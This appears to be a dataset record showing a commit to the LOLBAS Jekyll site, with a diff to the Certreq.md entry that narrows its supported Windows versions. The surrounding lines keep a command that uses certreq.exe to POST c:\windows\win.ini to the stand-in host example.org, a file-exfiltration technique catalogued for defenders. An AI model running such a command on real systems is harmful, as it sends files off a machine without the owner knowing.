

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Certreq.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Applying update LOLBAS-Project/LOLBAS@74d010a893e413fe2fe4f0bebbc5f1b65147cc86

```diff
--- a/_lolbas/Binaries/Certreq.md
+++ b/_lolbas/Binaries/Certreq.md
@@ -10,14 +10,14 @@ Commands:
     Category: Download
     Privileges: User
     MitreID: T1105
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows 10, Windows 11
   - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
     Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
     Usecase: Upload
     Category: Upload
     Privileges: User
     MitreID: T1105
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\certreq.exe
   - Path: C:\Windows\SysWOW64\certreq.exe
```
